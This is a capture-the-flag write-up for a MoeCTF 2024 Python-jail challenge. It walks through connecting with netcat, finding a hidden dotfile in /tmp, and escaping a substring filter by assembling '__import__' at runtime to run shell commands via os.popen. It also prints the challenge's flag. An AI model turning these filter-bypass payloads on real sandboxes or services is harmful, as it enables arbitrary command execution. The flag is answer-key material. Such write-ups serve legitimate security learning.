










# moejail_lv1

| | |
|---|---|
| **Event** | MoeCTF 2024 |
| **Category** | Misc — Python jail |
| **Flag** | `moectf{ah_ha-now_you_kn0w_How_to-E5C@Pe-sIMp1E_StRing-Fi1ter0}` |

## Overview

A Python jail (`ez python jail`) served over the competition's per-player instance system. Each connection starts with a simple arithmetic bot-check, then executes the submitted payload inside a restricted Python environment.

## Solution

### 1. Reach the service

The instance is exposed through WSRX, which maps the remote service to localhost.





Connecting with netcat:

```bash
nc 127.0.0.1 54548
```



### 2. Pass the bot-check

Each round asks for the concatenation of two string literals:

```
Are you robot? Please enter '9XRJS5'+'GUE7TI'=? to continue:
```

The answer is simply `9XRJS5GUE7TI`. This is only an anti-automation check — it changes every round and has no bearing on the jail.



### 3. Locate the flag

The hints shown alongside the challenge are explicit:

> The flag is under `/tmp`, look carefully.
>
> `https://man7.org/linux/man-pages/man7/glob.7.html`




Trying the obvious names from a normal shell fails — `planet`, `flag` and `flag.txt` do not exist in the working directory.


Inside the jail, the first payload attempts were:

```python
print(__import__('glob').glob('/tmp/*'))
# []
```

```python
print(open('/tmp/flag_abc.txt').read())
# FileNotFoundError: [Errno 2] No such file or directory
```

The empty glob result is the key hint: `glob('/tmp/*')` does **not** match dotfiles. The flag is stored as a hidden file beginning with `.`.

Direct use of `__import__` was also filtered in some rounds:

```python
__import__('os').popen('cat /tmp/*').read()
# NameError: name '__import__' is not defined
```




### 4. Bypass the string filter

The filter blocks the literal substring `__import__`, so it can be assembled at runtime:

```python
print(getattr(__builtins__, '__imp' + 'ort__')('os').listdir('/tmp'))
```

This lists the directory, including the hidden entry:

```
['.therealflag_ffd2b74dc346ffd834c09cfc3a35296cb1fe3994d30f8bd3effb8e37ac8e30251849e396c9de159dab7f1ee0fada3cd550762954ac192a12c436299f96f2d708', '..', ...]
```



Confirming with `ls -la /tmp` shows the same dotfile. Reading it via a wildcard that does match dotfiles:

```python
print(getattr(__builtins__, '__imp' + 'ort__')('os').popen('cat /tmp/.t*').read())
```

```
moectf{ah_ha-now_you_kn0w_How_to-E5C@Pe-sIMp1E_StRing-Fi1ter0}
```

## Takeaways

- `glob('*')` skips dotfiles by default — the hint link to `glob(7)` was pointing directly at this behaviour.
- Naive substring filters are defeated by constructing the blocked name at runtime (`'__imp' + 'ort__'`).
- `listdir` + a wildcard that includes hidden files is a reliable way to enumerate and read a jail's `/tmp`.
